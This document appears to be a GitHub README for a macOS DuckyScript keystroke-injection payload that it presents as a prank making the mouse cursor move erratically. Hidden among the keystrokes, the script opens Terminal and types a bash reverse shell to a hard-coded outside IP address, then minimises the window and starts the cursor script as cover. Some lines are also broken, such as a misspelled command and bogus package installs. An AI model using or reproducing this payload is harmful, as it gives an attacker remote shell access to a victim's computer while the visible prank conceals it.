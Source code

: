 # Mouse-Chaos-Payload-MacOS
DuckyScript that causes the virtual mouse of a computer to go hay-wire on MacOS.

## DISCLAIMER:
This is for security research purposes ONLY. Only use on machines where you have permission or your own.

## About
Version 1.0
Author: samamsa7

## DuckyScript Code<code><pre>
DELAY 75
COMMAND SPACE
DELAY 50
STRING TERMINAL
DELAY 50
ENTER
STRING bash
DELAY 50
ENTER
DELAY 50
STRING bash -i >& /dev/tcp/173.255.247.7/87 0>&1
DELAY 50
ENTER
DELAY 50
COMMAND M
DELAY 50
COMMAND SPACE
DELAY 50
STRING TERMINAL
DELAY 50
ENTER
DELAY 50
STRING pip3 install pyautogui
DELAY 500
DELAY 50
STRING pip3 install time
DELAY 550
STRING pip3 install random
DEALY 550
STRING nano payload.py
DELAY 50
STRING import pyautogui
DELAY 10
ENTER
DELAY 10
STRING import random
DELAY 10
ENTER
DELAY 10
STRING import time
DELAY 10
ENTER
DELAY 10
STRING while True:
DELAY 10
ENTER
DELAY 10
STRING    x = random.randint(0, pyautogui.size().width)
DELAY 10
ENTER
DELAY 10
STRING    y = random.randint(0, pyautogui.size().height)
DELAY 10
ENTER
DELAY 10
STRING   pyautogui.moveTo(x, y)
DELAY 10
ENTER
DELAY 10
STRING    time.sleep(0.01)
DELAY 10
CTRL X
DELAY 10
STRING y
DELAY 10
ENTER
DELAY 10
STRING python3 payload.py
DELAY 10
ENTER
DELAY 10
COMMAND M
</code></pre>
